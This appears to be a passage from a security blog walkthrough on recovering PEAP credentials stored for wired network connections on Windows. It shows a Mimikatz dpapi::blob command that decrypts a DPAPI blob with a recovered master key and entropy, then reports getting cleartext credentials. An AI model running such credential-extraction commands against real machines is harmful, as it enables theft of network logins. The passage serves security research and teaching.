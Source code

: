 ```batch
dpapi::blob /in:c:\temp\wired.bin /raw /unprotect /masterkey:73b724580d0abfd9ebb62c462151334ced52fb75203dace1f8ab631326b75c3a297246e577362dfba88bb3ae5561fa091e1d9b02c450d859a19fed66e397d9f5 /entropy:6eafe55eabc3495c9808c61ee123342f /out:c:\temp\wired_decrypted.bin
```

![DPAPI blob decrypted with Mimikatz](/assets/posts/2024-02-25-peap-credentials-wired-connections/16_mimikatz-dpapi-blob-decrypted.png)
_DPAPI blob decrypted with Mimikatz_

This time, the decryption is successful, and we can read the output file to get our cleartext credentials! :trophy:
